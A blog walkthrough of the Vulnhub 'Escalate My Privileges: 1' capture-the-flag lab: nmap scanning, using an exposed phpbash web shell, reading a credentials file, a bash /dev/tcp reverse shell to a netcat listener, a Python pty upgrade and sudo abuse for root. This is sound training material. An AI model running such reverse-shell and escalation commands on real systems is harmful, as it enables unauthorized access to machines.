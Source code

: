 ```yaml
---
full_title: "Entry 0x07 - Vulnhub: Escalate My Privileges: 1 Walkthrough"
date: "2020-04-12"
layout: post
coverImage: "screen-shot-2020-04-13-at-12.49.33-am.png"
tags:
- Beginner
- CTF
- Kali
- Linux
- Vulnhub
- Walkthrough
- Writeup
- Security
---
```


**Escalate My Privileges: 1** is a challenge posted on [VulnHub](https://www.vulnhub.com/entry/escalate-my-privileges-1,448/) created by [Akanksha Sachin Verma](https://www.vulnhub.com/author/akanksha-sachin-verma,672/). This is a write-up of my experience solving this awesome CTF challenge.

With my Attack Machine (**Kali Linux**) and Victim Machine (**Escalate My Privileges: 1**) set up and running, I decided to get down to solving this challenge.

> Read more about my set up and environment [here](/2019/05/25/entry-0x01-my-first-post.html)

I decided to start my journey by noting down the IP address of our victim machine. We are lucky that the author decided to display it directly on the login screen of the CentOS server.

![Screen Shot 2020-04-13 at 12.49.33 AM](/assets/images/screen-shot-2020-04-13-at-12.49.33-am.png)

Great! The victim machine has the IP address `192.168.56.120`. Let's continue with some port scanning (as usual 😏).

I decided to use my trusty `nmap` with options enabled to scan _all_ ports and provide details about the service running using the command: `nmap -p- -sV 192.168.56.120`

![Screen Shot 2020-04-13 at 7.11.20 PM](/assets/images/screen-shot-2020-04-13-at-7.11.20-pm.png)

The `nmap` scan revealed a whole bunch of open ports on the victim machine. Now, the first thing that I noticed was port `80` and I decided to navigate to the website (`http://192.168.56.102`) using **Firefox ESR** as follows:

![Screen Shot 2020-04-13 at 7.15.49 PM](/assets/images/screen-shot-2020-04-13-at-7.15.49-pm.png)

Cool! A pretty `index.html` webpage which goes well with the theme of the challenge 😎

Whenever, I am faced with a `HTML` page, I make it a point to view the webpage source code **before** attempting brute-force using tools like `dirb` or `dirbuster`. I decided to hit `<CTRL+U>` to view the webpage source.

![Screen Shot 2020-04-13 at 7.21.20 PM](/assets/images/screen-shot-2020-04-13-at-7.21.20-pm-e1586791364696.png)

Interesting! The `alt` attribute in the `img` tag has a URL - `http://ip/phpbash.php`

I decided to check out `http://192.168.56.120/phpbash.php` by replacing `ip` with the victim machine's IP address.

![Screen Shot 2020-04-13 at 7.51.19 PM](/assets/images/screen-shot-2020-04-13-at-7.51.19-pm.png)

Oh my God - command execution 😳

I decided to play with some basic Linux commands to learn more about my privileges.

![Screen Shot 2020-04-13 at 7.54.41 PM](/assets/images/screen-shot-2020-04-13-at-7.54.41-pm.png)

Looks like I am `apache`.

I decided to check for more users on the victim machine and look for clues. For this purpose, I ran the command: `cd /home` to navigate to the `/home` directory where I can find other users (if any).

![Screen Shot 2020-04-13 at 8.00.37 PM](/assets/images/screen-shot-2020-04-13-at-8.00.37-pm.png)

Bingo! Looks like there is a user called `armour` on the victim machine. I decided to look inside using the command: `ls -lsa armour` to also display hidden files (if any).

![Screen Shot 2020-04-13 at 8.02.28 PM](/assets/images/screen-shot-2020-04-13-at-8.02.28-pm.png)

C'mon it is literally right there - `Credentials.txt`

What does it contain? I decided to find out...

![Screen Shot 2020-04-13 at 8.07.02 PM](/assets/images/screen-shot-2020-04-13-at-8.07.02-pm.png)

The `Credentials.txt` file contains the following text:

```
my password is
md5(rootroot1)
```

Woohoo! A password... but how to use it?

Maybe `SSH`? Our previous `nmap` scan did show that port `22` was open. Also, the website did not have a login portal or something similar. I decided to try the `SSH` approach.

But first - I decided to compute the `MD5` hash of the password string - `rootroot1` using the simple Linux command: `echo -n rootroot1 | md5sum`

![Screen Shot 2020-04-13 at 8.22.25 PM](/assets/images/screen-shot-2020-04-13-at-8.22.25-pm.png)

> The `-n` option for the `echo` command prevents output of the trailing newline

Great! We have our password!

I decided to try logging into the victim machine as `armour` using the command: 
`ssh armour@192.168.56.120`

![Screen Shot 2020-04-13 at 8.29.01 PM](/assets/images/screen-shot-2020-04-13-at-8.29.01-pm.png)

Damn! Not what I had expected!

I decided to go back to the webpage. Maybe I can login to the `armour` account directly using the `su` Linux command as follows: `su - armour`

![Screen Shot 2020-04-13 at 8.47.58 PM](/assets/images/screen-shot-2020-04-13-at-8.47.58-pm.png)

> Read more about `su` vs `sudo` [here](https://www.lifewire.com/switch-user-su-command-3887179)

Hmm, `Authentication failure`.

I decided to explore a different approach - Reverse Shell. Maybe an _interactive_ shell will allow me to input the `MD5` password hash and escalate my privileges from `apache` to beyond 😎

With my handy [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) by **pentestmonkey**, I decided to proceed by launching `nc -lvp 1010` on my attack machine to listen for connections. Then, on the webpage command execution input, I ran the command:

`bash -i >& /dev/tcp/192.168.56.119/1010 0>&1` where `192.168.56.120` is the IP address of attack machine and port `1010` is the randomly selected port on which `nc` is listening on for connections.

![Screen Shot 2020-04-13 at 8.55.43 PM](/assets/images/screen-shot-2020-04-13-at-8.55.43-pm.png)

Lo and behold!

![Screen Shot 2020-04-13 at 9.12.38 PM](/assets/images/screen-shot-2020-04-13-at-9.12.38-pm.png)

Still `apache` btw!

Now, to login as `armour` using the command: `su - armour`

![Screen Shot 2020-04-13 at 10.20.24 PM](/assets/images/screen-shot-2020-04-13-at-10.20.24-pm.png)

Woohoo! I am `armour`

It is important to note that once the password is entered, there is no manual prompt. You just need to type in any command and see 😏

Okay, the next step is to escalate my privileges and capture the flag. But how?

I decided to proceed by checking for `sudo` rights for the user `armour`. To do this, I ran the command: `sudo -l`

![Screen Shot 2020-04-13 at 10.25.44 PM](/assets/images/screen-shot-2020-04-13-at-10.25.44-pm.png)

Bah! Enough is enough! It is time to get a _full_ `tty` shell.

I ran my usual ever-wonderful Python `tty` command: `python -c 'import pty; pty.spawn("/bin/bash");'`

![Screen Shot 2020-04-13 at 10.28.18 PM](/assets/images/screen-shot-2020-04-13-at-10.28.18-pm.png)

That's when I decided to check the version of Python. After all, Python can't betray me 😳

![Screen Shot 2020-04-13 at 10.29.48 PM](/assets/images/screen-shot-2020-04-13-at-10.29.48-pm.png)

Oh look what we have here!

Python 3.6 - Hurrah!

I decided to try the same Python `tty` command using `python3` this time as follows: `python3 -c 'import pty; pty.spawn("/bin/bash");'`

![Screen Shot 2020-04-13 at 10.31.22 PM](/assets/images/screen-shot-2020-04-13-at-10.31.22-pm-e1586802718207.png)

Well, there you go! Finally!

Back to checking for a chance to exploit `sudo` rights using the command: `sudo -l`

![Screen Shot 2020-04-13 at 10.33.32 PM](/assets/images/screen-shot-2020-04-13-at-10.33.32-pm.png)

Like a kid in a candy store. Woah!

How about using good ol' `bash`?

![Screen Shot 2020-04-13 at 10.36.18 PM](/assets/images/screen-shot-2020-04-13-at-10.36.18-pm.png)

We did it! We got root! Heck yes!

...Now for the flag 😎

![Screen Shot 2020-04-13 at 10.38.30 PM](/assets/images/screen-shot-2020-04-13-at-10.38.30-pm.png)

Is that `MD5`? 😏

### My Thoughts

That was a great challenge from [Akanksha Sachin Verma](https://www.vulnhub.com/author/akanksha-sachin-verma,672/)! I really enjoyed going back to the basics. **Privilege escalation** is one of those areas where practice is everything and this challenge seems to be straightforward enough for a beginner (with boatloads of trial-and-error of course 😁)

I am writing a Vulnhub walkthrough after almost 7 months and had to do a LOT of Google-fu and re-read my old material to complete this challenge.

I look forward to solving more challenges in the [Escalate My Privileges](https://www.vulnhub.com/series/escalate-my-privileges,291/) series.

If you enjoyed reading this write-up, please check out my other [Vulnhub walkthroughs](/tags#vulnhub).
